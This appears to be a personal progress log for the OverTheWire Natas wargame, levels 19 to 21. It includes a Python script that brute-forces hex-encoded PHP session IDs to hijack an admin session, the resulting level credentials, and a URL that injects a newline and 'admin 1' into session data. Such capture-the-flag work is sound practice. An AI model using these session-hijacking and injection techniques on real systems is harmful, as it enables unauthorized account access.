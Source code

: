 ## 19->20
- http://natas19.natas.labs.overthewire.org/
- `natas20:p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw`
- 2025-06-24: Break Day
- 2025-06-25: Break Day
- Similar to last level, but session IDs are no longer sequential. From looking at the cookie, looks like they are hex versions of `{i}-admin`. Updated script to send requests to brute force try `{1...1000}-admin`
- Tools: https://gchq.github.io/CyberChef/#recipe=To_Hex('Space',0)&input=NzEtYWRtaW4
- References: https://nils-maeurer.de/post/overthewire-natas18-19/
```python
import requests
import time

auth_header = {
    'Authorization': 'Basic bmF0YXMxOTp0bndFUjdQZGZXa3hzRzRGTldVdG9BWjlWeVpUSnFKcg==',
}

url = 'http://natas19.natas.labs.overthewire.org'

for i in range(280, 300):
    admin_str = f"{i}-admin"
    hex_str = admin_str.encode('utf-8').hex()
    print(f"Trying {admin_str} with hex {hex_str}")
    cookie = {"PHPSESSID": hex_str}
    resp = requests.request(method='POST', url=url, headers=auth_header, cookies=cookie)
    time.sleep(0.1)
    # print(resp.text)
    if "You are an admin" in resp.text:
        print(resp.text)
        break
```
```
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw</pre></div>
</body>
```

## 20->21
- http://natas20.natas.labs.overthewire.org/
- `natas21:BPhv63cKE1lkQl04cE5CuFTzXe15NfiH`
- 2025-06-27: Break Day
- https://nils-maeurer.de/post/overthewire-natas20-21/
- https://www.w3schools.com/php/php_sessions.asp
- https://www.php.net/manual/en/intro.session.php
- What is a PHP Session? A session is a way to store information (in variables) to be used across multiple pages. Unlike a cookie, the information is not stored on the users computer.
- https://www.php.net/manual/en/class.sessionhandler.php
- https://www.php.net/manual/en/function.session-set-save-handler.php
- Tip: Any time that developers go out of their way to avoid using the normal behavior of a function or library is an opportunity to find a bug. Not to say that open source developers are infallible, but the intended usage is usually there for good reason.
- This solved it, but need to understand why: http://natas20.natas.labs.overthewire.org/index.php?name=test%0Aadmin%201?debug